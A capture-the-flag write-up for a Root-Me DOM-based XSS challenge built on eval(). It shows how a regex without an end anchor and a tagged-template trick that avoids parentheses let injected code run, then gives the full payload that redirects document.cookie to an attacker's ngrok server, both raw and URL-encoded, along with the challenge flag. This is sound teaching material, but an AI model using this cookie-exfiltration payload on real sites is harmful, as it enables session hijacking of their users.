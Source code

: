 # XSS DOM Based - Eval

**Point**: 40 Points 

**Description**: Steal the admin’s session cookie.

## Solution:

There's a simple calculator>

<p align="center"><img width="350px" height="150px" src="https://user-images.githubusercontent.com/48288606/159746731-8fe14ffd-1aff-4a52-9e5f-db4a8b2f288d.png"/></p>

Try enter `1 + 1`:

<p align="center"><img width="350px" height="200px" src="https://user-images.githubusercontent.com/48288606/159750532-1aff11d7-4eec-458e-861c-48d9b9bad165.png" /></p>

Try enter arbitrary format `khangtictoc`:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159748134-7a189c79-7f45-4537-aa3b-8219b14d09a9.png" /></p>

Examine the source code a little bit. 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159748670-fc8b1b6f-217e-473b-a8cd-85dfb723f8eb.png" /></p>

The program use directly the `eval` function. This is very dangerous, `eval()` can execute any javascript code, even from string with code format.

Try making XSS happen. This spend me a lots of stupid time, but i'm sure you all be aware of **vulnerable regex** in this case `/^\d+[\+|\-|\*|\/]\d+/`. With symbol `^`, this only check the if our first part of our string has format `number + number`. The place `+` can be any of  <br>`+ - * /`. A secure regex should contain `$` at the end to stabilize the input data. [Play with Regex](https://regexr.com/)

With this, we can inject our XSS code at the end of input. For example, try to enter this: `1 + 1, alert(1)`

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159750329-1f370e11-35e6-40db-aa39-b2bf40ab8e73.png" /></p>

Well, they've filtered character `()`. Try to use **Tagged Templates** [Research more here!](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates), use this payload ``1 + 1, alert`1` ``

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159106743-5170454c-cd7f-4d88-a4d2-9b70a7945a44.png" /></p>

Yes!! Piece of cake. I just try to `alert(1)` to prove this. Actually, for final payload, we don't care if server filters `()` or not.
 
Now this proves XSS can be in action. Now we have to get the **cookie** from the victim, we ought to delivery all collected cookie from victim (administrator) to a specific server that we take control. Payload will look like this:

```text
1+1, document.location="{your_server_link_site}?cookie=" + document.cookie
```

Let's take action step-by-step:

1. Run PHP server with **localhost** and optional **port** without any content: `php -S localhost:4444 `

2. Public our server by tunneling. I use **ngrok** to serve this purpose:
   - Connect to ngrok with your account token: `ngrok authtoken {your_account_token}`
   - Tunneling our local site to public network with port specified above: `ngrok http 4444`
   - Get the public link we get from ngrok and create with payload above.
   ![image](https://user-images.githubusercontent.com/48288606/159753459-1bd85e80-cda4-41b1-8235-511514bee716.png)

3. Send our payload to cookie **status** and reload page:
```text
1+1, document.location="http://6b48-123-21-33-87.ngrok.io?cookie=" + document.cookie
``` 

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159753758-510f5e86-a0d2-4ad6-b296-c31a1f4c6eba.png" /> </p>

Our payload is working.

There's one more problem we have to deal with. When we submit, the page quickly directs to our site so we can't have enough time to "collect" the URL. We should decode our payload ([Use this!](https://www.urlencoder.org/) and set **number** param with decoded value for creating our own links.

Encoded payload:

```text
1%2B1%2C%20document.location%3D%22http%3A%2F%2F6b48-123-21-33-87.ngrok.io%3Fcookie%3D%22%20%2B%20document.cookie
```
Assign it into **calculation** parameter in URL query. We have full payload:

```text
http://challenge01.root-me.org/web-client/ch34/?calculation=1%2B1%2C%20document.location%3D%22http%3A%2F%2F6b48-123-21-33-87.ngrok.io%3Fcookie%3D%22%20%2B%20document.cookie
```
**NOTE: You can check this payload by put it directly to URL search bar**

Move to "Contact" section. Send our payload to server. Wait for a while, check whether our server has received cookie or not.

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/159755071-b7dd6131-1b40-4e50-8650-16a1e476ad8d.png" /> </p>

FLag: **rootme{Eval_Is_DangER0us}**

